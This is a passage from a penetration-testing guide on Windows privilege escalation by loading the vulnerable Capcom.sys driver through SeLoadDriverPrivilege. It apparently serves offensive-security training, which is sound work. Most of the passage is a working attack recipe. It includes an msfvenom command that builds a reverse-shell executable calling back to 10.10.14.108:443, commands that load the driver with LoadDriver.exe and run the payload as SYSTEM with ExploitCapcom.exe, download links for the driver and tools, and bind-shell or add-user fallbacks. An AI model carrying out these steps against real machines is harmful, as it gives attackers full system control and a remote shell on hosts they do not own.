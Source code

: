 The `CommandLine` string in this example would be changed to:

```c
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

## Capcom.sys Method 2

The `Capcom.sys` driver is a well-known driver that allows users to execute shell code with system privileges. This driver can be particularly useful for escalating privileges in a Windows environment.

### **Download the Capcom.sys Driver**

The `Capcom.sys` driver can be downloaded from the following GitHub repository: [Capcom-Rootkit - Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

Additionally, you can find useful tools such as `LoadDriver.exe` and `ExploitCapcom.exe` in the following repository: [SeLoadDriverPrivilege - Josh Morrison](https://github.com/JoshMorrison99/SeLoadDriverPrivilege)

### **Create a Malicious Executable**

Using [metasploit](../../../../toolbox/tooling/exploitation-tools/metasploit/ "mention"), create a malicious executable (e.g., `rev.exe`) that will provide a reverse shell when executed. This executable will be run with elevated privileges after loading the `Capcom.sys` driver.

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform Windows -f exe LHOST=10.10.14.108 LPORT=443 -o rev.exe
```
{% endcode %}

### **Load the Capcom.sys Driver**

Use the `LoadDriver.exe` tool to load the `Capcom.sys` driver. The command syntax is as follows:

```
.\LoadDriver.exe System\CurrentControlSet\MyService C:\Users\Test\Capcom.sys
```

Upon successful execution, this command should return `NTSTATUS: 00000000, WinError: 0`. If it does not, check the location of `Capcom.sys` or ensure that you are executing `LoadDriver.exe` from the correct directory.

### **Execute the Malicious Executable**

After successfully loading the driver, use `ExploitCapcom.exe` to execute your malicious executable with elevated privileges:

```
.\ExploitCapcom.exe C:\Windows\Place\to\reverseshell\rev.exe
```
